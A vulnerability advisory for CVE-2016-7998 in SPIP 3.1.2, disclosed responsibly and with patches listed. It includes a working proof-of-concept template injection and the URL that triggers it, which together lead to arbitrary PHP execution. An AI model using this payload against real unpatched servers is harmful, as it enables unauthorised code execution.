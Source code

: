 ## SPIP 3.1.2 Template Compiler/Composer PHP Code Execution (CVE-2016-7998)

### Product Description

SPIP is a publishing system for the Internet, which put importance on collaborative working, multilingual environments and ease of use. It is free software, distributed under the GNU/GPL licence.

### Vulnerability Description

The SPIP template composer/compiler does not correctly handle SPIP "INCLUDE/INCLURE" Tags, allowing PHP code execution by an authenticated user.
This vulnerability can be exploited using the CSRF or the XSS vulnerability also found in this advisory.

**Access Vector**: remote

**Security Risk**: critical

**Vulnerability**: CWE-94

**CVSS Base Score**: 9.1 (Critical)

**CVE-ID**: CVE-2016-7998

### Proof of Concept

Store a `.html` file in a random directory with the following content :

    <INCLURE(xxx"\)\);}system\("touch /tmp/exploited"\);/*)>

Then you can access to the following URL, with the `var_url` paramater pointing to the path corresponding to your uploaded file:

    http://spip-dev.srv/ecrire/?exec=valider_xml&var_url=file:///tmp/directory&ext=html

The PHP code `system("touch /tmp/exploited");` will be executed after 2 requests.

This happens because the template file is included (if already compiled) by `ecrire/public/composer.php`, line 60 :

    if (!squelette_obsolete($phpfile, $source)) {
      include_once $phpfile;

and because we can "exit" the function generated by the template compiler (improper sanitization when generating argumenter_squelette):

    function html_xxxx($Cache, $Pile, $doublons = array(), $Numrows = array(), $SP = 0) {
      if (isset($Pile[0]["doublons"]) AND is_array($Pile[0]["doublons"]))
        $doublons = nettoyer_env_doublons($Pile[0]["doublons"]);
      $connect = '';
      $page = (
    '<'.'?php echo recuperer_fond( ' . argumenter_squelette("xxx"));}system("touch /tmp/exploited");/*") . ', array(\'lang\' => ' . argumenter_squelette($GLOBALS["spip_lang"]) . '), array("compil"=>array(\'/tmp/exploit.html\',\'html_xxxx\',\'\',1,$GLOBALS[\'spip_lang\'])), _request("connect"));
    ?'.'>
    ');
      return analyse_resultat_skel('html_xxxx', $Cache, $page, '/tmp/exploit.html');
    }

Therefore, the vulnerability leads to arbitrary PHP code execution.


### Vulnerable code

The vulnerable code is located in the `argumenter_inclure` function (`ecrire/public/compiler.php`), line 123.

    if ($var !== 1) {
      $val = ($echap ? "\'$var\' => ' . argumenter_squelette(" : "'$var' => ")
        . $val . ($echap ? ") . '" : " ");
    }

### Timeline (dd/mm/yyyy)

* 15/09/2016 : Initial discovery
* 26/09/2016 : Contact with SPIP Team
* 27/09/2016 : Answer from SPIP Team, sent advisory details
* 27/09/2016 : Fixes issued for PHP Code Execution
* 30/09/2016 : SPIP 3.1.3 Released

### Fixes

* https://core.spip.net/projects/spip/repository/revisions/23186
* https://core.spip.net/projects/spip/repository/revisions/23189
* https://core.spip.net/projects/spip/repository/revisions/23192

### Affected versions

* Version <= 3.1.2

### Credits

* Nicolas Chatelain, TNP Consultants (nicolas.chatelain -at- tnpconsultants -dot- com)

